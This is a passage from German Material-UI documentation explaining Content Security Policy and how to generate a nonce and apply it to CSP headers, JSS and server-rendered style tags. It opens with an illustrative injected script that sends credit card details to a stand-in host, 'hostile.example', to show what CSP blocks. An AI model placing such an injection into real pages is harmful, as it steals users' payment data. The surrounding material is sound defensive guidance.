     <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

Diese Sicherheitsanfälligkeit ermöglicht es dem Angreifer, irgendetwas auszuführen. Mit einem sicheren CSP-Header lädt der Browser dieses Skript jedoch nicht.

Weitere Informationen zu CSP finden Sie in den [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### Wie kann man CSP implementieren?

Um CSP mit Material-UI (und JSS) verwenden zu können, müssen Sie eine Nonce verwenden. Eine Nonce ist eine zufällig generierte Zeichenfolge, die nur einmal verwendet wird. Daher müssen Sie eine Server-Middleware hinzufügen, um für jede Anforderung eine zu generieren. JSS hat ein [tolles Tutorial](https://github.com/cssinjs/jss/blob/next/docs/csp.md) wie man dies mit Express und React Helmet erreichen kann. Lesen Sie für einen grundlegenden Überblick weiter.

Eine CSP-Nonce ist eine Base 64-codierte Zeichenfolge. Sie können so erstellen:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Es ist sehr wichtig, dass Sie die UUID Version 4 verwenden, da es einen **unvorhersehbaren** String generiert. Sie wenden dann dieses Nonce auf den CSP-Header an. Ein CSP-Header könnte mit der angewendeten Nonce so aussehen:

```js
header('Content-Security-Policy')
  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

Wenn Sie Server Side-Rendering (SSR) verwenden, sollten Sie die Nonce im `<style>`-Tag des Servers übergeben.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheets.toString() } }
/>
```

Dann müssen Sie dieses Nonce an JSS übergeben, damit es den nachfolgenden `<style>`-Tags hinzugefügt werden kann. Die Clientseite erhält die Nonce aus einem Header. Sie müssen diesen Header unabhängig davon angeben, ob SSR verwendet wird oder nicht.

```jsx
<meta property="csp-nonce" content={nonce} />
```
